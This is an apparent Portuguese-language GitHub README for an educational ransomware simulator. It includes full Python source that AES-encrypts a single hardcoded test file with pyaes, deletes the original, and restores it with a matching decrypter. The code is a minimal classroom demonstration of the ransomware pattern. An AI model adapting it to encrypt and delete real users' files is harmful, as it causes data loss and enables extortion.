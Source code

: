 ##🔒 Simulador de Ransomware em Python:
Este projeto é uma simulação de ransomware desenvolvida em Python no Kali Linux. Ele criptografa e descriptografa arquivos usando o algoritmo AES (Advanced Encryption Standard) por meio da biblioteca pyaes.
⚠️ Atenção: Este projeto é apenas para fins educacionais e não deve ser utilizado para atividades maliciosas. O uso indevido pode resultar em consequências legais.

##📌 Origem do Projeto:
Este projeto foi um fork de um repositório do GitHub. Ele foi estudado para fins educacionais sobre Cibersegurança.

##📌 Como funciona:
O script encrypter.py criptografa um arquivo chamado teste.txt e cria um novo arquivo criptografado com a extensão .ransomwaretroll.
O script decrypter.py descriptografa o arquivo e restaura o seu conteúdo original.

##🚀 Tecnologias Utilizadas
Python 3
Kali Linux
**Biblioteca **pyaes

##📥 Instalação e Execução
🔹 1. Clonar o repositório
 git clone https://github.com/cassiano-dio/cibersecurity-desafio-ransomware
 cd simulador-ransomware

🔹 2. Instalar dependências
Caso não tenha a biblioteca pyaes, instale com:
pip install pyaes

🔹 3. Criar um arquivo para teste
Antes de rodar o script, crie um arquivo de teste:
echo "Alo Brasil" > teste.txt

🔹 4. Executar o Encrypter
python encrypter.py
Isso removerá o arquivo teste.txt e criará teste.txt.ransomwaretroll.

🔹 5. Executar o Decrypter
python decrypter.py
Isso removerá o arquivo criptografado e restaurará teste.txt.

##📝🔹 Códigos
Encrypter (encrypter.py)

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo original
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

Decrypter (decrypter.py)
import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
